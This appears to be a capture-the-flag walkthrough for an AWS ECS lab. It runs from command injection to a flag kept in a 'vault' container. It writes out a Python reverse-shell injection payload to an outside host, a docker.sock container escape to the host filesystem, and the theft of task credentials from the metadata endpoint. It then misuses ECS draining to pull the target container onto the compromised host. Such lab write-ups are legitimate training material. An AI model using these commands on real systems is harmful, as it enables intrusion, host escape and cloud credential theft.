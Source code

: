 1. Exploit the website via command injection.

    ```bash
    ; export RHOST="10.0.0.1";export RPORT=4242;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

2. Use the docker.sock to deploy a new container 

    `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host`

3. List the container on the host

    `docker ps`

4. Get the container credentials from the "privd" container. 

    ```bash
        docker exec -it <container_id> sh 
        wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI `
    ```
5. List the clusters in the account 

    `aws ecs list-clusters --profile privd`

6. List tasks in the cluster

    `aws ecs list-tasks --cluster my-cluster --profile privd`

7. List container instances 

    `aws ecs list-container-instances --cluster my-cluster --profile privd `

8. Set container instance to DRANING 

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled. 

    `docker ps`

10. Get the flag from the "vault" container 

    `docker exec -it <container_id> cat /FLAG.txt`